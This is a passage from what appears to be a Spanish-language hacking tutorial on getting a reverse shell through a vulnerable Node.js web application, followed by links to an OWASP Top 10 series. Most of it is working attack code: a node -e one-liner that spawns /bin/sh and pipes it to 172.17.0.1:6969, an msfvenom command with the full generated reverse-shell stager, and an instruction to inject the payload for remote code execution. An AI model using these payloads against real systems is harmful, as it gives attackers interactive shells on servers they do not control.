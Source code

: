 Obteniendo una shell inversa con NODEJS.  
Podemos usar el siguiente payload:  

```js  
node -e "(function(){ var net = require('net'), cp = require('child_process'), sh = cp.spawn('/bin/sh', []); var client = new net.Socket(); client.connect(6969, '172.17.0.1', function(){ client.pipe(sh.stdin); sh.stdout.pipe(client); sh.stderr.pipe(client); }); return /a/; })();"
```  

Si deseamos generar el payload con MSFVENOM, debemos ejecutar el siguiente comando:  

```zsh  
┌─[root@BinaryChaos] - [/home/gerh/Escritorio/Prometheus/Tests] - [Thu Jun 27, 04:42]
└─[$]> # msfvenom -p nodejs/shell_reverse_tcp LHOST=172.17.0.1 LPORT=6969
[-] No platform was selected, choosing Msf::Module::Platform::NodeJS from the payload
[-] No arch selected, selecting arch: nodejs from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 798 bytes
 (function(){ var require = global.require || global.process.mainModule.constructor._load; if (!require) return; var cmd = (global.process.platform.match(/^win/i)) ? "cmd" : "/bin/sh"; var net = require("net"), cp = require("child_process"), util = require("util"), sh = cp.spawn(cmd, []); var client = this; var counter=0; function StagerRepeat(){ client.socket = net.connect(6969, "172.17.0.1", function() { client.socket.pipe(sh.stdin); if (typeof util.pump === "undefined") { sh.stdout.pipe(client.socket); sh.stderr.pipe(client.socket); } else { util.pump(sh.stdout, client.socket); util.pump(sh.stderr, client.socket); } }); socket.on("error", function(error) { counter++; if(counter<= 10){ setTimeout(function() { StagerRepeat();}, 5*1000); } else process.exit(); }); } StagerRepeat(); })();
```  

Ahora solo debemos concatenar nuestro payload con el operador previamente indicado y obtendremos ejecuccion de codigo remoto sobre el aplicativo web.  

<script id="asciicast-253894" src="https://asciinema.org/a/253894.js" async></script>

## Aprende hacking explotando las vulnerabilidades mas criticas en aplicaciones WEB.  

 - [A1: Inyección](https://hackingprofessional.github.io/Security/Como-realizar-una-inyeccion-SQL-OWASP-1)   
 - [A2: Pérdida de Autenticación](https://hackingprofessional.github.io/Security/Perdida-de-autenticacion-y-exposicion-de-datos-OWASP-II)  
 - [A3: Exposición de datos sensibles](https://hackingprofessional.github.io/Security/Perdida-de-autenticacion-y-exposicion-de-datos-OWASP-II)  
 - [A4: Entidades Externas XML (XXE)](https://hackingprofessional.github.io/Security/Como-realizar-una-inyeccion-XML-OWASP-III)  
 - [A5: Pérdida de Control de Acceso](https://hackingprofessional.github.io/Security/Evadiendo-controles-de-acceso-OWASP-IV)  
 - [A6: Configuración de Seguridad Incorrecta](https://hackingprofessional.github.io/Security/El-riesgo-de-las-Configuraciónes-Incorrectas-de-Seguridad-OWAPS-V)  
 - [A7: Secuencia de Comandos en Sitios Cruzados (XSS)](https://hackingprofessional.github.io/Security/Aprende-a-realizar-una-inyeccion-XSS-OWASP-VI)  
 - [A8: Deserialización Insegura](https://hackingprofessional.github.io/Security/Aprende-que-es-Deserialización-Insegura-OWASP-VII)  
 - [A9: Componentes con vulnerabilidades conocidas](https://hackingprofessional.github.io/Security/Explotando-vulnerabilidades-conocidas-OWASP-VIII)  
 - [A10: Registro y Monitoreo Insuficientes](https://hackingprofessional.github.io/Security/Explotando-vulnerabilidades-conocidas-OWASP-VIII)  


 [Para mas informacion leer el siguiente PDF publicado por el OWASP](https://www.owasp.org/images/5/5e/OWASP-Top-10-2017-es.pdf)